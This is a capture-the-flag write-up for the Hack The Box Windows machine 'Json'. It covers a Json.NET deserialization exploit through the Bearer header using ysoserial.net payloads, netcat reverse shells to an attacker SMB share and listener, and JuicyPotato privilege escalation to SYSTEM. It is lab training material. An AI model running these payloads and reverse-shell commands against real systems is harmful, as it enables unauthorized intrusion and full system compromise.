






---
search:
  exclude: true
---
# Json Writeup

## Introduction :

Json is a Medium windows box released back in September 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~/_HTB/Json]
      → sudo nmap -vvv -sTU -p- 10.10.10.158 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      Discovered open port 137/udp on 10.10.10.158
      Discovered open port 139/tcp on 10.10.10.158
      Discovered open port 21/tcp on 10.10.10.158
      Discovered open port 445/tcp on 10.10.10.158
      Discovered open port 80/tcp on 10.10.10.158
      Discovered open port 49154/tcp on 10.10.10.158
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~/_HTB/Json]
      → sudo nmap -sTU -p 137,139,21,445,80,49154 -sCV
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-01 23:59 BST
      WARNING: No targets were specified, so 0 hosts scanned.
      Nmap done: 0 IP addresses (0 hosts up) scanned in 0.94 seconds
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~/_HTB/Json]
      → sudo nmap -sTU -p 137,139,21,445,80,49154 -sCV 10.10.10.158
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-02 00:00 BST
      Nmap scan report for 10.10.10.158
      Host is up (0.15s latency).
    
      PORT      STATE  SERVICE      VERSION
      21/tcp    open   ftp          FileZilla ftpd
      | ftp-syst:
      |_  SYST: UNIX emulated by FileZilla
      80/tcp    open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/8.5
      |_http-title: Json HTB
      137/tcp   closed netbios-ns
      139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open   microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
      49154/tcp open   msrpc        Microsoft Windows RPC
      21/udp    closed ftp
      80/udp    closed http
      137/udp   open   netbios-ns   Microsoft Windows netbios-ns (workgroup: WORKGROUP)
      139/udp   closed netbios-ssn
      445/udp   closed microsoft-ds
      49154/udp closed unknown
      Service Info: Host: JSON; OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: mean: 4h00m49s, deviation: 0s, median: 4h00m49s
      |_nbstat: NetBIOS name: JSON, NetBIOS user: , NetBIOS MAC: 00:50:56:b9:c1:28 (VMware)
      |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
      | smb-security-mode:
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-05-02T03:01:59
      |_  start_date: 2020-05-02T02:06:16
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 83.50 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so upon investigating it we first get a webpage that loads very slowly which also tries to redirect us to another page. The webpage takes forever to load because it is full of dead links which obviously ends up 404ing after a certain timeout: 

Preety much everything on this page is unusuable and broken, so we take a look at the sourcecode to find the login page url: 

So we'll use burpsuite to examine the login request: 

Intercept the request with foxyproxy (127.0.0.1:8080) and burpsuite's intercepter, and then send it to the repeater (CTRL+R) and go there (CTRL+SHIFT+R) 

And sadly sending the login request gives us a 404 status code. Hopefully for us this machine has got some predictable credentials: 

And we get a base64 encoded OAuth cookie, so let's decode it: 
    
    
    [ 192.168.0.32/24 ] [ /dev/pts/3 ] [~/_HTB/Json]
    → echo 'eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=' | base64 -d
    {"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
    

And we seem to get credentials, most importantly a password that looks like a hash, but still that's just a cookie, so we'll leave it as it is. So we forward the request to login as admin, to get preety much the same page as before with just as many dead links. The only difference being, when we examine the network side of the webpage (F12, network, asc status codes) we see an interesting url which is /api/Account

From here we are heavily hinted towards a json application running on .NET, if we inspect this /api/Account URL further, causing an error onto the **Bearer** header, we are able to get hinted towards a de-serialization attack vector for the initial foothold. The trick here was to mess around with the Bearer parameter of the request being sent for /api/Account which normally contains the OAuth Cookie parameter: 

 

Once we start messing with the Bearer HTTP Header, we get the specific error "Cannot deserialize Json.Net Object" which heavily hints us towards a Json .NET deserialization exploit. And in particular towards [ysoserial.net](https://github.com/pwntester/ysoserial.net)

Now in order to continue here we need to head over to a windows host to make use of the ysoserial.net binary: 

 

Double click it, and send it to the repeater with **CTRL+R** , and go there with **CTRL+SHIFT+R**

Once here we modify the Bearer parameter with a payload and we want to test if the machine can ping our host:
    
    
    PS C:\Users\Administrator\Desktop\Github\ysoserial> .\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw  -c "ping 10.10.14.11"
    {
        '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
        'MethodName':'Start',
        'MethodParameters':{
            '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            '$values':['cmd', '/c ping 10.10.14.11']
        },
        'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
    }
    
    

Now our Bearer header is in base64, so we use the base64 format:
    
    
    PS C:\Users\Administrator\Desktop\Github\ysoserial> .\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "ping 10.10.14.11"
    ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIHBpbmcgMTAuMTAuMTQuMTEnXQ0KICAgIH0sDQogICAgJ09iamVjdEluc3RhbmNlJzp7JyR0eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknfQ0KfQ==
    

And we use tcpdump to check the incoming ICMP packets on our tun0 interface:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/json]
    → sudo tcpdump -i tun0 icmp
    [sudo] password for nothing:
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    
    

So we inject the Bearer header with our base64 deserialisation payload, and click Send, which causes an error:

But most importantly, it shows you that we have been able to do remote code execution:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/4 ] [~/HTB/json]
    → sudo tcpdump -i tun0 icmp
    [sudo] password for nothing:
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    08:41:58.395646 IP 10.10.10.158 > nowhere: ICMP echo request, id 1, seq 1, length 40
    08:41:58.395676 IP nowhere > 10.10.10.158: ICMP echo reply, id 1, seq 1, length 40
    08:41:59.398638 IP 10.10.10.158 > nowhere: ICMP echo request, id 1, seq 2, length 40
    08:41:59.398662 IP nowhere > 10.10.10.158: ICMP echo reply, id 1, seq 2, length 40
    08:42:00.414385 IP 10.10.10.158 > nowhere: ICMP echo request, id 1, seq 3, length 40
    08:42:00.414408 IP nowhere > 10.10.10.158: ICMP echo reply, id 1, seq 3, length 40
    08:42:01.429977 IP 10.10.10.158 > nowhere: ICMP echo request, id 1, seq 4, length 40
    08:42:01.430001 IP nowhere > 10.10.10.158: ICMP echo reply, id 1, seq 4, length 40
    
    

So from here we can simply change the payload to a reverse shell payload, we will do so with the netcat binary:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/17 ] [~/HTB/json]
    → tree .
    .
    ├── binaries
    **├── nihilist
    │   ├── nc.exe
    │   └── xc.exe**
    ├── nihilist.ps1
    ├── nc64.exe
    ├── xc
    └── ysoserialpayload
    
    2 directories, 6 files
    
    [ 10.10.14.11/23 ] [ /dev/pts/17 ] [~/HTB/json]
    → sudo **impacket-smbserver nihilist nihilist -smb2support**
    [sudo] password for nothing:
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    
    

So here we created a smb share that the box will access to directly execute the xc.exe binary without the need to download it.
    
    
    PS C:\Users\Administrator\Desktop\Github\ysoserial> .\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "\\10.10.14.11\nihilist\nc.exe 10.10.14.11 9001 -e cmd.exe"
    ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIFxcXFwxMC4xMC4xNC4xMVxcZWNoMFxcbmMuZXhlIDEwLjEwLjE0LjExIDkwMDEgLWUgY21kLmV4ZSddDQogICAgfSwNCiAgICAnT2JqZWN0SW5zdGFuY2UnOnsnJHR5cGUnOidTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OSd9DQp9
    
    

Then inject the Bearer header with our b64 payload and hit send:

And from here we recieve the reverse shell connection back to our port 9001:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/15 ] [~/HTB/json]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.158] 49545
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>whoami
    whoami
    json\userpool
    
    [...]
    
    c:\Users\userpool\Desktop>type user.txt
    type user.txt
    34XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get a shell as userpool, and we got the user flag.

## **Part 3 : Getting Root Access**

Now for some reason we can't use powershell because it takes forever to load:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/15 ] [~/HTB/json]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.158] 49592
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>powershell
    powershell
    Windows PowerShell
    Copyright (C) 2014 Microsoft Corporation. All rights reserved.
    
    whoami
    ^C
    
    [ 10.10.14.11/23 ] [ /dev/pts/15 ] [~/HTB/json]
    → nc -lvnp 9001
    

So spawn the reverse shell again, and we see that we can print the system infos:
    
    
    c:\windows\system32\inetsrv>systeminfo
    systeminfo
    
    Host Name:                 JSON
    **OS Name:                   Microsoft Windows Server 2012 R2 Datacenter**
    OS Version:                6.3.9600 N/A Build 9600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00252-80005-00001-AA602
    Original Install Date:     5/22/2019, 4:27:16 PM
    System Boot Time:          6/20/2021, 8:54:58 AM
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
    Total Physical Memory:     6,143 MB
    Available Physical Memory: 5,476 MB
    Virtual Memory: Max Size:  7,167 MB
    Virtual Memory: Available: 6,472 MB
    Virtual Memory: In Use:    695 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: vmxnet3 Ethernet Adapter
                                     Connection Name: Ethernet0 2
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.158
                                     [02]: fe80::2dce:4a3f:8489:1791
                                     [03]: dead:beef::2dce:4a3f:8489:1791
    Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
    
    

Here we get a big hint that we can use [juicypotato]() because this is a Windows Server 2012 machine. You can see [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter) that this is a supported version of windows, and we can attempt to run it with one of the CSLIDs specified on that page.
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [~/HTB/json]
    → wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -O nihilist/jp.exe
    
    

I place it inside the nihilist directory that is being used for my smb server, then simply copy it onto the box:
    
    
    cd ../../../../
    
    c:\>mkdir Temp
    mkdir Temp
    
    c:\>cd Temp
    cd Temp
    
    c:\Temp>copy \\10.10.14.11\nihilist\jp.exe jp.exe
    copy \\10.10.14.11\nihilist\jp.exe jp.exe
            1 file(s) copied.
    
    

Now we get the netcat binary onto the box, and we create a .bat file that will execute it:
    
    
    c:\Temp>copy \\10.10.14.11\nihilist\nc.exe nc.exe
    copy \\10.10.14.11\nihilist\nc.exe nc.exe
            1 file(s) copied.
    
    c:\Temp>echo c:\Temp\nc.exe 10.10.14.11 9002 -e cmd.exe > privesc.bat
    echo c:\Temp\nc.exe 10.10.14.11 9002 -e cmd.exe > privesc.bat
    
    c:\Temp>type privesc.bat
    type privesc.bat
    c:\Temp\nc.exe 10.10.14.11 9002 -e cmd.exe
    

Then we use juicypotato accordingly with the corresponding CSLID:

    
    
    c:\Temp> .\jp.exe -l 1337 -p c:\Temp\privesc.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
     .\jp.exe -l 1337 -p c:\Temp\privesc.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
    ....
    [+] authresult 0
    {e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
    
    [+] CreateProcessWithTokenW OK
    

And we get a reverse shell on our port 9002:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/18 ] [~/HTB/json]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.158] 49705
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\Users\Administrator>whoami
    whoami
    nt authority\system
    
    C:\Users\Administrator>cd ..
    cd ..
    
    C:\Users>cd superadmin
    cd superadmin
    
    C:\Users\superadmin>cd Desktop
    cd Desktop
    
    C:\Users\superadmin\Desktop>type root.txt
    type root.txt
    3cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to print the root flag.

## **Conclusion**

Here we can see the progress graph :

